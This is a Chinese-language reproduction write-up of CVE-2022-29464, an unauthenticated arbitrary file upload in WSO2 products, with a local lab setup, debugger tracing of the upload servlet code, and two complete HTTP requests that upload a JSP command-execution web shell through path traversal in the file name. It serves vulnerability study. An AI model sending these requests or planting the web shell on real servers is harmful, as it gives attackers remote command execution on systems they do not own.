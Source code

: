 # WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464

## 漏洞描述

CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## 漏洞影响

```
WSO2 API Manager 2.2.0 and above
WSO2 Identity Server 5.2.0 and above
WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0
WSO2 Identity Server as Key Manager 5.3.0 and above
WSO2 Enterprise Integrator 6.2.0 and above
```

## 环境搭建

https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip

https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip

## 漏洞复现

下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241641592.png)

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241641901.png)

运行后访问 localhost:9443 出现如下即搭建完成

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642560.png)

在配置文件 identity.xml 中我们可以看到 路由 `/fileupload` 中不存在权限鉴定, 对应的 Servlet 为 FileUploadServlet

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642432.png)

文件上传为POST请求，对应的处理方法为 `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

继续向下，略过调用方法的过程

```
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642357.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642961.png)

最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642011.png)

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241642860.png)

```
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241643581.png)

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置, 查找可以解析 jsp文件的目录

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241643426.png)

构造请求包，通过控制文件名的方法上传至该目录中

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241643756.png)

访问上传的文件，`/authenticationendpoint/xxx.jsp?cmd=ls`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241643038.png)